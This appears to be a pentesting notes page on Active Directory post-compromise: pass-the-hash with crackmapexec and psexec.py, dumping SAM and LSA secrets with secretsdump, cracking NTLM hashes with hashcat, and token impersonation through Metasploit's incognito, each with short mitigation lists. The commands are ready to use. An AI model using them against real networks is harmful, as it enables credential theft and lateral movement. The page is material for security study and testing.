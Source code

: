 ```yaml
---
layout: default
title: 03. Active Directory Post Compromise
nav_order: 2
has_children: false
parent: Active Directory
grand_parent: Pentesting
---
```


## 03.Active Directory Post Compromise


### Pass The Hash

Pass The Password / Pass The Hash

You can pass NTLM hashes but not NTLMv2 hashes.

#### Using crackmapexec

[Source](https://wiki.porchetta.industries/)

Can be used with password:

```bash
crackmapexec smb $IP/$CIDR -u username -d EVIL_DOMAIN -p password
```

Or with hashes:

```bash
crackmapexec smb $IP/$CIDR -u username -H hash --local-auth
```

Accessing another instance pwned could be done using [`psexec.py`](https://github.com/fortra/impacket/blob/master/examples/psexec.py) :

```bash
psexec.py evil/username:password@target_ip
```

#### Dumping hashes

It requires access to another host.

Using [secretdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) we could retrieve hashes from host:

```bash
secretdump.py evil/username:password@target_ip
```

It gives the SAM hashes and the LSA secrets of the host.

#### Cracking the hashes

Using hashcat:

```bash
hashcat -m 1000 hashes.txt rockyou.txt -O 
```

#### Only passing the hash

We will use only the second part of the hash:

![](/writings/docs/assets/Hashes.png)

![](docs/assets/Hashes.png)

Using crackmapexec:
```bash
crackmapexec smb $IP/$CIDR -u "Username" -H <hash> --local-auth
```

We could try to get a shell access using only the hash and psexec:

```bash
psexec.py "username":@target_ip -hashes LMHASH:NTHASH
```

(`LMHASH:NTHASH` correspond to the full hash retrieve previously)

#### Mitigations

- Limit account reuse
- Utilize strong password
- Implement Privilege Access Management (PAM)


### Token Impersonation

Token are temporary key allowing access to system / network without having to provide credentials.

There is 2 types:
- Delegate - Create to login to a machine / using RDP
- Impersonate - "Non interractive", attaching network drive or domain logon script

#### Using Incognito

Require a shell on a machine.
From an existing metasploit session, we could use the load command to load the `incognito` tool inside our target.

Once the tool loaded, we could start by listing the tokens available: 

```bash
list_tokens -u
```

Then from this list we could select a user we want to impersonate:

```bash
impersonate_token evil\\administrator
```

Metasploit handle everything for us. 

#### Mitigation

- Limit user/group token creation permission
- Account tiering 
- Local admin restriction


### Kerberoasting 

![](/writings/docs/assets/Pasted%20image%2020230223184254.png)
![](docs/assets/Pasted%20image%2020230223184256.png)








